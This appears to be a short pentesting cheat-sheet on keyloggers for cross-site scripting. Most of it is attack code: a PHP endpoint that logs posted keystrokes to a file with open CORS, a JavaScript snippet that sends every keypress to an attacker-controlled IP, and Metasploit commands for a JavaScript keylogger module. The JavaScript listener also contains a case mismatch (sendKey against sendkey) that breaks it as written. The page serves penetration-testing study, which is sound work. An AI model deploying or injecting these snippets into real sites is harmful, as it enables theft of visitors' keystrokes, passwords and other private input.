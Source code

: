 # Keyloggers

Search Tag(s): #helpers #webapp-pentesting #cross-site-scripting

## 01 - Server-Side

### 1.1 - PHP

```php
<?php
header("Access-Control-Allow-Origin: *");
if(!empty($_POST['key'])) {
    $log = fopen('keylog.txt', 'a+');
    fwrite($log, $_POST['key']);
    fclose($log);
}
?>
```

### 1.2 - JavaScript

```js
function sendKey(event) {
	fetch("http[s]://<IP>/data?k=" + event.key);
}
document.addEventListener('keydown', sendkey);
```

## 02 - Metasploit

TODO: Fill this info

```
msf > use auxiliary/server/capture/http_javascript_keylogger

msf auxiliary(server/capture/http_javascript_keylogger) > options
```

---
## References

### Hacktricks

- [Hacktricks: XSS (Cross Site Scripting)](https://book.hacktricks.wiki/en/pentesting-web/xss-cross-site-scripting/index.html)

### IMVK

- [IMVK: Cross Site Scripting - Exploitation](https://imvk.net/en/infosec/ethical-web-hacking/cross-site-scripting-exploitation)

### Geeky much

- [Geeky much: Cross-site Scripting](https://medium.com/secure-you/cross-site-scripting-b64f440ae060)

### Rapid7

- [Rapid7: Metasploit Framework - JavaScript Keylogger](https://www.rapid7.com/blog/post/2012/02/21/metasploit-javascript-keylogger/)

### Pentest Tools

- [Pentest Tools: 10 Practical scenarios for XSS attacks](https://pentest-tools.com/blog/xss-attacks-practical-scenarios)